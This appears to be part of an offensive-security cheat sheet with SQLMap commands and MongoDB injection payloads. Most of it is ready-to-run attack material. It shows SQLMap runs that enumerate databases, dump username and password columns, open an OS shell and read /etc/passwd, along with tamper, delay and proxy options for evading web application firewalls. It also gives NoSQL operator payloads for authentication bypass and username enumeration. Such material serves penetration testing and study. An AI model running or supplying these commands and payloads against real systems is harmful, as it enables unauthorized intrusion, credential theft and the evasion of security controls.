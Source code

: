 ## SQLMap Automated Exploitation

### Basic SQLMap Usage
```bash
# Basic SQL injection testing
sqlmap -u "http://target.com/page.php?id=1"                    # Basic test
sqlmap -u "http://target.com/page.php?id=1" --dbs              # Enumerate databases
sqlmap -u "http://target.com/page.php?id=1" -D database --tables # Enumerate tables
sqlmap -u "http://target.com/page.php?id=1" -D database -T users --columns # Enumerate columns
sqlmap -u "http://target.com/page.php?id=1" -D database -T users -C username,password --dump # Dump data

# POST request testing
sqlmap -u "http://target.com/login.php" --data="username=admin&password=pass" -p username

# Cookie-based injection
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abcd1234; user_id=1" -p user_id

# Advanced SQLMap features
sqlmap -u "http://target.com/page.php?id=1" --os-shell          # OS command shell
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd" # File reading
sqlmap -u "http://target.com/page.php?id=1" --batch             # Non-interactive mode
```

**Documentation**: Automated SQL injection detection and exploitation using SQLMap tool.
**Limitations**: May be detected by WAFs; generates significant traffic; requires careful parameter tuning.

### SQLMap Evasion Techniques
```bash
# WAF Evasion
sqlmap -u "target" --tamper=space2comment,charencode,randomcase    # Multiple tamper scripts
sqlmap -u "target" --delay=2 --timeout=30                          # Timing adjustments
sqlmap -u "target" --random-agent --proxy=http://proxy:8080        # Randomization and proxy

# Custom Payloads
sqlmap -u "target" --suffix="-- -" --prefix="'"                    # Custom prefix/suffix
sqlmap -u "target" --technique=BEU                                 # Specific techniques only
```

**Documentation**: Advanced SQLMap usage for evading web application firewalls and detection systems.
**Limitations**: Modern WAFs may still detect; requires extensive testing; may cause application instability.

## NoSQL Injection Payloads

### MongoDB Injection
```javascript
// Authentication Bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
{"username": {"$where": "return true"}, "password": {"$where": "return true"}}

// Information Extraction
{"username": {"$regex": "^a.*"}, "password": {"$ne": null}}       // Username enumeration
{"$where": "this.username.length == 5"}                          // Length-based enumeration

// Operator Injection
username[$ne]=invalid&password[$ne]=invalid                       // URL parameter injection
```
